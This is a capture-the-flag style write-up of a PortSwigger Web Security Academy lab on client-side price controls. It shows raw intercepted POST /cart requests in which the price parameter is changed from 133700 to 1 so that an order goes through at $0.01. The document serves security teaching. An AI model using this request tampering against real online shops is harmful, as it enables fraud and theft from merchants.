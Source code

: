 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c3dc0eb5-ea9e-48aa-b17b-8648adc24905)

## Overview :

A fundamentally flawed assumption is that users will only interact with the application via the provided web interface. This is especially dangerous because it leads to the further assumption that client-side validation will prevent users from supplying malicious input. However, an attacker can simply use tools such as Burp Proxy to tamper with the data after it has been sent by the browser but before it is passed into the server-side logic. This effectively renders the client-side controls useless. 

## Solution :

First login as wiener.

### Analyze the application flow -

Click on any product, we can see an **add to cart**  button.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bee441d6-9b0c-4319-8965-7263115e44cc)

Now 1 item has been added to cart.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d8402ba1-dc4b-4ab1-8796-c220182ee7be)

Clicking on the cart button takes us to final  payment page.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/266419c6-156e-4c54-9fb3-7553be420471)

On clicking **Place Order**, we have sucessfully placed our order.

### Price manipulation -

In the above process, when clicking on **add to cart**, the following *POST* request is sent to */cart.*

```http
POST /cart HTTP/2
Host: 0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Cookie: session=6o4GIfX8RIvqB7az6du7CifCTWWWASz2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Referer: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=133700
```

Notice that there is a parameter `price=1337.00`. We can try modifying the parameter to some other value.

```http
POST /cart HTTP/2
Host: 0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Cookie: session=6o4GIfX8RIvqB7az6du7CifCTWWWASz2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Referer: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=1
```
Now the price has been changed to **$0.01**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c33e9ee7-f103-4384-bfba-8652b95138f9)

Click place order & the lab is solved. 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cae63167-c280-4647-8966-49931f1c9725)
